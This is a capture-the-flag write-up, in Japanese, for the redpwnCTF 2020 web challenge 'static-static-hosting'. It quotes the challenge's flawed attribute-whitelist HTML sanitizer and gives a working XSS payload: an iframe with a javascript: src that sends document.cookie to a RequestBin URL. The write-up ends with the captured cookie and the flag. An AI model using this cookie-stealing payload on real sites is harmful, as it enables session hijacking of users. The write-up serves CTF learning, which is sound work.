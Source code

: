 # static-static-hosting:web:434pts
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me [here](https://admin-bot.redpwnc.tf/submit?challenge=static-static-hosting)  
Site: [static-static-hosting.2020.redpwnc.tf](https://static-static-hosting.2020.redpwnc.tf/)  
Note: The site is entirely static. Dirbuster will not be useful in solving it.  

# Solution
ターゲットサイトとAdmin Botへ巡回命令を出せるサイトが与えられる。  
Static Static Hosting  
[site1.png](site/site1.png)  
Static Static Hosting Admin Bot Submission  
[site2.png](site/site2.png)  
入力によりユーザがページを作成できるようだ。  
そのページをAdmin Botに渡し、XSSでクッキーを抜く可能性が高い。  
作成したページでのXSSを試み、[RequestBin.com](https://requestbin.com/)で待ち受ける。  
作成したページでは以下のスクリプト(script.js)が動いていた。  
```JavaScript:script.js
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.documentElement.innerHTML = clean(input);
}

function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```
どうやらsrcは許されているようだがonerrorなどは使用できないようだ。  
srcで思い出すのがiframeでのXSSだ。  
以下のようにタグを書き込める。  
```html
<iframe src="javascript:window.location.href='https://[RequestBinURL]?get='+document.cookie">
```
普段はbase64をかませたものを使用しているが、今回はAdmin Botの仕様上動かなかった。  
作成されたページをAdmin Botに渡すとflagが得られる。  
```text
GET/?get=flag=flag{wh0_n33d5_d0mpur1fy}
```

## flag{wh0_n33d5_d0mpur1fy}